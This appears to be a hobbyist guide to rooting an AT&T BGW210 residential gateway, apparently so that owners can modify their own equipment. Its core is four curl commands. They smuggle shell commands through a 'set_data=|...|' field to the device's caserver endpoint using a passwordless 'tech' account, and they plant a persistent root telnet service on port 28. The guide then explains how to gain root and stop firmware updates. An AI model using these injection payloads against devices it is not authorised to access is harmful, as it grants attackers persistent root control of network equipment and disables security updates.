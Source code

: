Once downgraded, go to http://192.168.1.254/cgi-bin/ipalloc.ha
- type your device access code to login
- assign a static IP to your PC that you'll be executing the CURL commands from

I assigned my PC: 192.168.1.70 since that's what the RG's DHCP-Server had assigned it.

Once you assign a static IP,  refresh your PC's local ip address. using ifconfig, or ipconfig if on windows (cmd prompt: ipconfig /release and then ipconfig /renew). You may ignore this step if you assigned the same IPv4 it received by the DHCP-Server.

Once that's done, open http://192.168.1.254/cgi-bin/ipalloc.ha and authenticate again if it asks.

Once you authenticate, run these CURL commands (remember to navigate to cURL, see my video for help).

**tech has no password when prompted**

```
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| echo 28telnet stream tcp nowait root /usr/sbin/telnetd -i -l /bin/nsh > /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -a /var/etc/inetd.d/telnet28|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| pfs -s|" -v --http1.1 https://192.168.1.254:49955/caserver
 
curl -k -u tech -H "User-Agent: blah" -H "Connection:Keep-Alive" -d "appid=001&set_data=| reboot|" -v --http1.1 https://192.168.1.254:49955/caserver
```
 
The AT&T RG (BGW210) will reboot after the final command, and you'll be able to telnet on port 28 as admin w/ device access code as the password once it reboots. 

(Use Putty if using a Windows PC)
 
Once you're logged in via telnet, type `!` and press enter to elevate to a root sh terminal

If your RG still has connectivity to the Internet, you may want to consider terminating the auto firmware update process to prevent it from doing so in the middle of this process.  To do so, follow these steps:

Run the command: `ps | grep firmware | grep -v grep`

What we're looking for here is `/usr/bin/udpsvd -E 0 69 tftpd /lib/firmware`

```
# ps | grep firmware | grep -v grep
 1079 root      1348 S    /usr/bin/udpsvd -E 0 69 tftpd /lib/firmware
```

Kill the process with the kill command:
```
# kill -9 1079
```

_in the video I mistook the other four digit number for the PIV by mistake initially, then corrected myself_
